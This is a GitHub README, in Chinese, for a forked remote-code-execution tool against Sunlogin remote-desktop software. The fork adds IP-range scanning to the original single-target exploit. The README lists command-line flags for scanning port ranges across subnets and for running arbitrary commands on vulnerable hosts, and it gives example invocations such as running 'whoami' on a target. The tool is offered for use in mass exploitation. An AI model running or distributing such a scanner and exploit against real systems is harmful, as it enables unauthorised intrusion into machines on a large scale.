


## Sunlogin RCE
fork自https://github.com/Mr-xn/sunlogin_rce
原项目只支持一个目的IP，做了修改，添加了IP段扫描功能

## Usage
```
./xrkRce  -h <ip/subnet> [-t <scan | rce>] [-c <cmd>] [-p <port/ports] [-x <threadsCount>]
    -h 单个IP或IP段,e.g. 10.0.0.1/24
    -t 执行类型，scan为扫描，rce为执行命令。默认为scan
    -c 指定要执行的命令，配合 "-t rce"使用
    -p 指定端口/端口范围。默认为40000-65536
    -x 指定协程数，默认为1000
```

## Example & Screenshot
scan
```
./xrkRce -h 192.168.0.100 -p 60000-65535
```

rce
```
./xrkRce -h 192.168.0.100 -p 62944 -t rce -c "whoami"
```
